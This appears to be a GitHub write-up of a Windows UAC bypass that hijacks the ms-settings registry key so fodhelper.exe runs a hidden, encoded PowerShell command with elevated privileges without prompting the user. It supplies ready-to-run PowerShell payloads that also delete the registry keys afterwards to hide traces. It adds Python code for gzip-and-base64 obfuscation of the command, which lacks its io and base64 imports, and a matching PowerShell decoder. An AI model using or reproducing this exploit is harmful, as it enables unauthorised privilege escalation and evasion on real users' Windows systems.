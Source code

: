 # Theory

> Unlock hidden doors with trust as your key

### Vulnerability

fodhelper.exe itself does not execute registry keys per se; However, it reads certain registry keys to determine its behavior. By misusing the "ms-settings" key, we can potentially get fodhelper to run values within a key

fodhelper.exe is designed to run with elevated privileges without prompting the user with a uac

### Raw Payload

```Powershell
$payload="powershell.exe -w h -NoP -NonI -Exec Bypass -enc $command"
reg add "HKCU\Software\Classes\.hacker\Shell\Open\command" /d $payload /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".hacker" /f

fodhelper.exe

Start-Sleep -s 3
reg delete "HKCU\Software\Classes\.hacker\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```
or
```Powershell
$payload="powershell.exe -w h -NoP -NonI -Exec Bypass -enc $command";reg add "HKCU\Software\Classes\.hacker\Shell\Open\command" /d $payload /f;reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".hacker" /f;fodhelper.exe;Start-Sleep -s 3;reg delete "HKCU\Software\Classes\.hacker\" /f;reg delete "HKCU\Software\Classes\ms-settings\" /f;
```

### Encryption and Encode

<b>I know it's corny, but compression is a form of encryption</b>

We want to compress and encode this command to where powershell can decompress

Compression often generates unwanted characters, so we will also encode after compressing

```python
# Please forgive me, I hate leaving comments
# The code should speak for itself

import gzip

def compress_and_base64(input):
    # Convert string to bytes
    bytes = input.encode('utf-8')

    # Initialize buffer
    buffer = io.BytesIO()

    # Compress stream with gzip
    with gzip.GzipFile(fileobj=buffer, mode='wb') as file:
        file.write(bytes)

    # Save stream to variable
    compressed = buffer.getvalue()

    # Encode, so invisble characters are saved
    encoded = base64.b64encode(compressed)

    # Convert bytes to string
    return encoded.decode('utf-8')
```

<b>Extraction Method</b>

```powershell
# Decode and Decompress
# Output will be a string

(New-Object IO.Compression.GZipStream(

    # Decode
    [System.IO.MemoryStream][Convert]::FromBase64String($COMPRESSED_DATA_HERE),

    # Decompress stream with gzip
    [System.IO.Compression.CompressionMode]::Decompress

) |

# % is shorthand for "foreach-object"

%{

    # Read from gzip stream, convert to ascii
    New-Object System.IO.StreamReader($_, [System.Text.Encoding]::ASCII)

# Convert all to single string
}).ReadToEnd() 
```

or

```powershell
(New-Object IO.Compression.GZipStream([System.IO.MemoryStream][Convert]::FromBase64String(COMPRESSED_DATA_HERE), [System.IO.Compression.CompressionMode]::Decompress) |%{New-Object System.IO.StreamReader($_, [System.Text.Encoding]::ASCII)}).ReadToEnd()
```
